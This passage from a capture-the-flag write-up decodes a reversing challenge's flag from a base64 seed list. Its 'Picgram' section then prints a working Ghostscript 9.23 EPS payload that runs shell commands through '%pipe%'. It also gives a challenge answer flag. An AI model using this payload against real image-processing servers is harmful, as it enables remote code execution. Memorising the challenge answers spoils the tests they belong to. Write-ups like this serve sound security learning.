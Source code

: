 ```python
    seed = [(1, 'm'), (25, 'X'), (37, '3'),
        (30, 'R'), (38, '0'), (35, 'u'),
        (34, 'B'), (8, 'd'), (15, '0'),
        (27, 'f'), (4, 'Z'), (13, 'G'),
        (2, 'x'), (32, 'Z'), (10, 'Z'),
        (19, 'y'), (26, 'R'), (21, 'l'),
        (7, 'j'), (9, 'G'), (16, 'e'),
        (31, 'f'), (20, 'e'), (12, 'c'),
        (39, '='), (33, 'D'), (28, 'M'),
        (0, 'Z'), (6, 't'), (18, 'N'),
        (3, 'h'), (36, 'M'), (24, 'M'),
        (11, 'f'), (23, 'n'), (17, 'T'),
        (14, 'w'), (29, 'X'), (22, '9'),
        (5, '3')]
# okay decompiling __pycache__/secret.cpython-38.pyc
```

If we sort the seed and extract the letters we get a base64 string which when decoded gives us the flag:
```python
seed.sort()
"".join(map(lambda t: t[1], seed))
base64.b64decode("".join(map(lambda t: t[1], seed)))
# flag{ctf_pl4y3rz_g1t_1t_d0n3}
```

## Web

### Picgram

I searched for the Dockerfile origin `FROM vulhub/ghostscript:9.23-python` which got me fairly quickly to
<https://github.com/vulhub/vulhub/commit/dd5b071c60d9c0e1f6943cd7c49c14f23468a962>.

There we read:

> #### Exploit
> You can upload rce.jpg (a specially-crafted EPS image, not a real JPG) to execute `touch /tmp/got_rce` in the server. For proof, you can execute `docker exec [CONTAINER_ID] ls -alt /tmp`. To get `CONTAINER_ID`, you can check with `docker container ls`. To change the shell execution to other commands, you can change `touch /tmp/got_rce` directly in the `rce.jpg`.

Which means we get easy RCE with the following:

```
%!PS-Adobe-3.0 EPSF-3.0
%%BoundingBox: -0 -0 100 100
userdict /setpagedevice undef
save
legal
{ null restore } stopped { pop } if
{ legal } stopped { pop } if
restore
mark /OutputFile (%pipe%<command goes here>) currentdevice putdeviceprops
```
